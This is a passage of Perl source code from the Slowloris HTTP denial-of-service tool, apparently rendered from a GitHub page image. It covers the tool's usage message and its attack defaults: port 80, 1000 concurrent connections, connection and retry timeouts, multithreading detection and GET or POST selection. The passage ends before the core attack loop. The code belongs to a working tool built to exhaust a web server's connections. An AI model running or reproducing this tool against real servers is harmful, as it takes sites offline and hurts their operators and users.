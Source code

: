 ```
    print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";
    print "\n\tType 'perldoc $0' for help with options.\n\n";
    exit;
}

unless ($port) {
    $port = 80;
    print "Defaulting to port 80.\n";
}

unless ($tcpto) {
    $tcpto = 5;
    print "Defaulting to a 5 second tcp connection timeout.\n";
}

unless ($test) {
    unless ($timeout) {
        $timeout = 100;
        print "Defaulting to a 100 second re-try timeout.\n";
    }
    unless ($connections) {
        $connections = 1000;
        print "Defaulting to 1000 connections.\n";
    }
}

my $usemultithreading = 0;
if ( $Config{usethreads} ) {
    print "Multithreading enabled.\n";
    $usemultithreading = 1;
    use threads;
    use threads::shared;
}
else {
    print "No multithreading capabilites found!\n";
    print "Slowloris will be slower than normal as a result.\n";
}

my $packetcount : shared     = 0;
my $failed : shared          = 0;
my $connectioncount : shared = 0;

srand() if ($cache);

if ($shost) {
    $sendhost = $shost;
}
else {
    $sendhost = $host;
}
if ($httpready) {
    $method = "POST";
}
else {
    $method = "GET";
}

if ($test) {
    my @times = ( "2", "30", "90", "240", "500" );
    my $totaltime = 0;
    foreach (@times) {
        $totaltime = $totaltime + $_;
    }
```